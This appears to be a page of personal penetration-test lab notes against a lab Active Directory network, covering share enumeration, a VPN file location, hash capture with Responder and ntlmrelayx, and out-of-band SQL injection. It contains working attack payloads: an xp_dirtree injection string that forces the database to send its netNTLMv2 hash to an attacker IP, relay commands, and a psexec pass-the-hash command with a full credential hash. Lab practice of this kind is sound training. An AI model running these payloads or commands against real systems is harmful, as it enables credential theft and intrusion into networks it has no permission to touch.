 <p>Name           Type Remark              ComputerName <br />
----           ---- ------              ------------ <br />
ADMIN$   2147483648 Remote Admin        DC01.lab.local <br />
C$       2147483648 Default share       DC01.lab.local <br />
IPC$     2147483651 Remote IPC          DC01.lab.local <br />
NETLOGON          0 Logon server share  DC01.lab.local <br />
SYSVOL            0 Logon server share  DC01.lab.local <br />
ADMIN$   2147483648 Remote Admin        WS03.lab.local <br />
C$       2147483648 Default share       WS03.lab.local <br />
IPC$     2147483651 Remote IPC          WS03.lab.local <br />
address           0                     MX01.lab.local <br />
ADMIN$   2147483648 Remote Admin        MX01.lab.local <br />
C$       2147483648 Default share       MX01.lab.local <br />
IPC$     2147483651 Remote IPC          MX01.lab.local
ADMIN$   2147483648 Remote Admin        WEB01.lab.local
C$       2147483648 Default share       WEB01.lab.local
IPC$     2147483651 Remote IPC          WEB01.lab.local
ADMIN$   2147483648 Remote Admin        WS05.lab.local
C$       2147483648 Default share       WS05.lab.local
IPC$     2147483651 Remote IPC          WS05.lab.local
ADMIN$   2147483648 Remote Admin        RDS02.lab.local
C$       2147483648 Default share       RDS02.lab.local
IPC$     2147483651 Remote IPC          RDS02.lab.local
ADMIN$   2147483648 Remote Admin        SQL01.lab.local
C$       2147483648 Default share       SQL01.lab.local
IPC$     2147483651 Remote IPC          SQL01.lab.local</p>

<p>Discover the VPN to facilitate internal access to the subnet
//FS01.lab.local/GroupData/LabUserVPN.ovpn</p>

<p>We can use responder and ntlnrelayx to dump hashes
./Responder.py -I tun1 -wrf 
  -disable http/s and smb
./ntlmrelayx.py -tf ~/lkys37en-lab/labnotes/targets.txt</p>

<p>Out of band SQLi
We have an injection point from step one. 
To prompt the hash of the owner of the sql db to be sent to responder we need to instigat a DNS query to our IP.
We are requesting data be sent via HTML, SMB, or DNS. <br />
With MSSQL we use master..xp<em>dirtree (MySQL: LOAD</em>FILE()).
Supplying a hostname to these functions will cause a DNS lookup to occur. 
We're not interested in successful transmission of the information but the target user with send their netNTLMv2 hash along with their request to our machine.
a href= https://www.gracefulsecurity.com/sql-injection-out-of-band-exploitation/
/mvc/Product.aspx?ProductSubCategoryId=18;declare @q varchar(99);set @q='\10.8.254.14\test1'; exec master.dbo.xp<em>dirtree @q
/mvc/Product.aspx?ProductSubCategoryId=18;declare%20@q%20varchar(99);set%20@q=%27\10.8.254.14\test1%27;%20exec%20master.dbo.xp</em>dirtree%20@q</p>

<p>./psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:e8bcd502fbbdcd9379305dca15f4854e administrator@10.8.14.14
Impacket v0.9.16-dev - Copyright 2002-2018 Core Security Technologies</p>
